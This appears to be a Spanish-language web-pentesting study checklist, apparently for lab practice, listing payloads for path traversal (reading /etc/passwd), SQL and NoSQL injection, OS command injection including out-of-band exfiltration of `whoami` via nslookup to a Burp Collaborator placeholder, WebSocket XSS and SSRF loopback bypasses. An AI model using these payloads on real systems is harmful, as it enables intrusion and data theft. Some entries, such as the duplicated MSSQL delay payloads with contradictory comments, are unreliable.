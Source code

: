
### **Path traversal**

###### ***Comprobaciones***

- [ ] Cuando la sanitizacion quita el path traversal puntar al archivo directamente
- [ ] `....//`o `....\/`
- [ ] ``..%252f..%252f..%252fetc/passwd``, `%2e%2e%2f`y `%252e%252e%252f`, `..%c0%af`, `..%ef%bc%8f`
- [ ] Burp Pofesional - Intruder - Diccionario de rutas predefinido
- [ ] Carpeta / directorio requerida ``filename=/var/www/images/../../../etc/passwd``
- [ ] NullByte si el servidor requiere una extension ``/etc/passwd%00.png``

--------------------------
### **Authentication vulnerabilities** 

###### ***Login***

- [ ] Cookie ``stay-logged-in`` - Mantenerse conectado [[4. Brute Force Cookie]]
- [ ] Funcion de resetear la password [[6. Reset password function]]
###### ***Bypass Blocks***

- [ ] Bypass block ban [[1. Brute force and block ban]]
- [ ] Bypass IP block [[2. Broken brute-force protection, IP block]]
- [ ] Bypass bloqueo de cuenta [[3. Bloqueo de cuenta - Longitud respuesta]]
- [ ] Bypass doble factor autenticacion [[Saltarse doble factor de authenticacion]]

-------------------------------
### **SQL Injection**

###### ***Comprobaciones***

- [ ] ``'``
- [ ] ``"`` 
- [ ] `' or 1=1-- -` - Union based
- [ ] `' and sleep(5)-- -` - Union based
- [ ] `''` 
- [ ] `' and 1=1-- -` - Conditional error
- [ ] `' and '1'='2` - Conditional error
- [ ] `' and (select 'a')='a` - Conditional error
- [ ] `' AND '1'='1` - Conditional response
- [ ] `' AND '1'='2` - Conditional response
- [ ] Time based
	- [ ] Microsoft SQL
		- [ ] `'; IF (1=1) WAITFOR DELAY '0:0:10'--` - NO provoca un retraso en la respuesta porque la condicion es verdadera
		- [ ] `'; IF (1=1) WAITFOR DELAY '0:0:10'--` - SI provoca un retraso en la respuesta porque la condicion es falsa
	- [ ] Posgres SQL
		- [ ] `'||pg_sleep(10)-- -`
	- [ ] Mysql
		- [ ] `' OR 1=1 AND SLEEP(10) -- -` 

###### ***Tipos***

- [ ] Union based [[1.Sintaxis basica UNION]]
- [ ] Blind
	- [ ] Conditional error [[Explotacion Conditional Error]]
	- [ ] Conditional Response
		- [ ] Deteccion [[Deteccion Conditional Response]]
		- [ ] [[Explotacion Conditional Response]]
	- [ ] OAST [[out-of-band (OAST)]]
	- [ ] Time based Exploitation [[Explotacion Time Delays]]
- [ ] Oracle explotacion from dual - [[Hacking Apuntes/Gestores de contenido/Oracle/Oracle|Oracle]] 

###### ***En otros contextos***

- [ ] XML [[XML ofuscation]]

----------------------------------------
### **NoSQL Injection**

###### ***Comprobaciones - truncar consulta***

- [ ] ``'"`{`
- [ ] `;$Foo}`
- [ ] `$Foo \xYZ`
- [ ] `'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00` -> url-encode
- [ ] '\"`{\r;$Foo}\n$Foo \\xYZ\u0000`  -> json 
- [ ] Condicionales [[2. Comprobar si es condicional - booleanas]]
	- [ ] `' && 1 && 'x` - `' && '1'=='1`  -> Verdadera - Urlencodear
	- [ ] `' && 0 && 'x` - `' && '1'=='2`  -> Falsa - Urlencodear

###### ***Login***

- [ ] Operadores de consulta - LOGIN [[3. Operadores de consulta - Login]]
- [ ] Extraer datos [[4. Extraer datos]] 

-------------------------------
### **API** 

###### ***Identificar metodos y endpoints***

- [ ] Fuzzear API - Investigar las rutas
- [ ] Buscar archivos javascript que puedes contener endpoints - Se puede usar la extension BApp JS Link Finder
- [ ] Comprobar metodos compatibles ``HEAD - OPTIONS - PATCH - PUT - POST - GET`` - Podemos usar lista wordlist Burp 
	- [ ] Metodo PUT ``PUT /api/tasks/update`` tambien ``/delete`` o ``/add``
	- [ ] Metodo OPTIONS [[1. Identificar metodos]] - Cambiar Content-Type si a otro formato si nos lo pide con BApp convertidor
- [ ] Param Miner extension - Identificar parametros disponibles 

###### ***Vulnerablidades***

- [ ] Mass assignment vulnerabilities - Parametros ocultos [[2. Mass assignment vulnerabilities - Parametros ocultos]] 
- [ ] Server-side parameter pollution in REST paths [[3. Pruebas de contaminación de parámetros del lado del servidor en rutas REST - Server-side parameter pollution in REST paths]]
- [ ] Server-side parameter pollution [[4.Server-side parameter pollution]]

###### ***Otras***

- [ ] Borrar usuario de una API [[Borrar un usuario de una API]]

###### ***Extensiones Burp***

- [ ] Burp Scanner
- [ ] BApp Backslash Powered Scanner

---------------------------------------

### **OS Command Injection** 

###### ***Formas***

- [ ] Pipear `loquesea | whoami`
- [ ] Ping `||ping+-c+10+127.0.0.1||`
- [ ] Redirigir output a un archivo para despues apuntar a el `||whoami>/var/www/images/output.txt||`
- [ ] Blind OS Command Injection with out-of-band interaction `||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
- [ ] Blind OS command Injection with out-of-band data exfiltration `||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||`

------------------------

### **WebSockets attaks**

###### ***Formas***

- [ ] WebSockets to XSS - Si el mensaje se envia en json se traduce en html, meter `{"message":"<img src=1 onerror='alert(1)'>"}`
- [ ]  WebSocket to CSRF [[WebSockets attaks]]

###### ***Bypass Block***

- [ ] Desde la peticion raiz del chat `X-Forwarded-For: 1.1.1.1`
- [ ] alert bypass `<img src=1 oNeRrOr=alert`1`>` 

----------------------

### **SSRF**

###### ***Deteccion***

- [ ] Cuando un parametro puede leer una url - Sabiendo la IP - Redireccionamos a `http://192.168.0.1/admin/delete?username=carlos`
- [ ] Fuzear la IP - Fuzzear el ultimo digito de la IP con intruder, el que salga codigo 200 es el bueno `http://192.168.0.x/admin`

###### ***Formas***

- [ ] Insertar en el Referer en la peticion para la carga de una pagina un carga de burp collaborator
- [ ] StockApi parameter `http://127.0.0.1` - Llamada a una API desde un parametro
	- [ ] Bypass block loopback `http://127.1/`
- [ ] Acces to admin panel `http://127.1/admin`
	- [ ] Ofuscation character `a` bypass block `http://127.1/%2561dmin`
- [ ] 




